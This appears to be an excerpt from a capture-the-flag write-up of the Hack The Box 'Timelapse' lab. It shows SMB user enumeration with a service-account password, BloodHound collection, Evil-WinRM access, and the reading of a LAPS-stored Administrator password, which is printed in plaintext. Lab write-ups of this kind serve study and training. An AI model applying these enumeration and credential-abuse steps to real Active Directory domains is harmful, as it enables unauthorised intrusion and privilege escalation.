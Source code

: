 ```bash
sudo docker run 6cc968e59baa smb 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --users

timelapse.htb\TRX                            badpwdcount: 0 baddpwdtime: 2022-03-04 03:06:26.138123+00:00
SMB         10.10.11.152    445    DC01             timelapse.htb\svc_deploy                     badpwdcount: 0 baddpwdtime: 2021-10-25 19:17:42.060764+00:00
SMB         10.10.11.152    445    DC01             timelapse.htb\babywyrm                       badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB         10.10.11.152    445    DC01             timelapse.htb\sinfulz                        badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB         10.10.11.152    445    DC01             timelapse.htb\legacyy                        badpwdcount: 2 baddpwdtime: 2022-04-03 00:19:58.197536+00:00
SMB         10.10.11.152    445    DC01             timelapse.htb\payl0ad                        badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB         10.10.11.152    445    DC01             timelapse.htb\thecybergeek                   badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB         10.10.11.152    445    DC01             timelapse.htb\krbtgt                         badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB         10.10.11.152    445    DC01             timelapse.htb\Guest                          badpwdcount: 0 baddpwdtime: 1601-01-01 00:00:00+00:00
SMB         10.10.11.152    445    DC01             timelapse.htb\Administrator                  badpwdcount: 13 baddpwdtime: 2022-04-02 01:04:53.150654+00:00
```
- Now we have a valid user list we can make and creds to run with bloodhound

- Tricks for cutting file to get user list
```bash
cat users.lst| awk '{print $5}' > users.txt
```
```bash
cat users.txt| cut -d'\' -f2- > newUsers.txt
```

## Bloodhound
```bash
bloodhound-python -c All -u svc_deploy -d timelapse.htb -dc timelapse.htb -ns 10.10.11.152 --zip 
```

```bash
sudo docker run -v ./bloohound-data -it bloodhound 
```

- We can try to WinRM in and enumerate as this account

## Evil-WinRM
- Doing basic enum again (groups, privs), we find the user is apart of the "LAPS_Reader" group
[Another resource about LAPS](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/you-might-want-to-audit-your-laps-permissions/ba-p/2280785)

- Running the command in the service account session gives the Admin password and we can log in
Creds: 

```text
Administrator : 6;w9aKqtw@#ZH}6&@Uw69]iv
```
